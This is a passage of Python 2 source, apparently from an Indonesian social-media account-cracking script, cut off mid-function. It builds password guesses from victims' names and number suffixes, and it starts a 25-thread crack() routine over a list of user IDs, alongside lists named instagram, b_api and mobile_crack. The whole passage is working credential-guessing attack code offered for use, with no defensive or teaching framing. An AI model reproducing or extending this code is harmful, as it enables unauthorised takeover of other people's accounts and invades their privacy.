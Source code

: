 	# if len(san_) == 0:
	# 	print h+"\n ["+p+"*"+h+"]"+p+" Menggunakan Sandi"+k+":",
	# 	for dev in angka_nama:
	# 		print "nama"+dev+",",
	# 	print "nama"
	# 	print ''

	for dev in san_:
		if len(dev) >= 6:
			san_manual.append(dev)
		elif len(dev) == 3 or len(dev) == 4 or len(dev) == 5:
			san_manual.append(dev+"123")
	if len(san_manual) != 0:
		print h+"\n ["+p+"*"+h+"]"+p+" Jika diGabung: "+k+tampak
		sandi = raw_input(h+" ["+p+"?"+h+"]"+p+" Gabungkan Sandi Manual dan Bawaan?"+a+"[y/n]"+h+": ")
		if "y" in sandi or "Y" in sandi:
			sandi_gabung.append("IqbalDev")
			print h+"\n ["+p+"*"+h+"]"+p+" Menggabungkan Sandi Manual dan Bawaan"+a+" >_<"
		else:
			gak_gabung.append("IqbalDev")
			print h+"\n ["+p+"*"+h+"]"+p+" Tidak Menggabungkan Dengan Sandi Bawaan"+m+" X"
			pass

instagram = []
b_api = []
mobile_crack = []

def crack():

		with ThreadPoolExecutor(max_workers=25) as c_dev:
			for data_ in user_id:
				try:
					pas = []
					_id_dev_ = data_.split()[0]
					pw = data_.split()
					if "IqbalDev" in gak_gabung:
						pas = san_manual
					elif "IqbalDev" not in sandi_gabung:
						if len(pw[1]) >= 3:
							if len(pw) >= 3:

								if "1" in pilih:
									pas.append(pw[1]+pw[2])
									pas.append(pw[1]+" "+pw[2])
								if "2" in pilih:
									for dev in angka_nama:
										if len(dev) < 3 and len(pw[1]) == 3:
											pass
										else:
											pas.append(pw[1]+dev)
									pas.append(pw[1]+" "+pw[2])
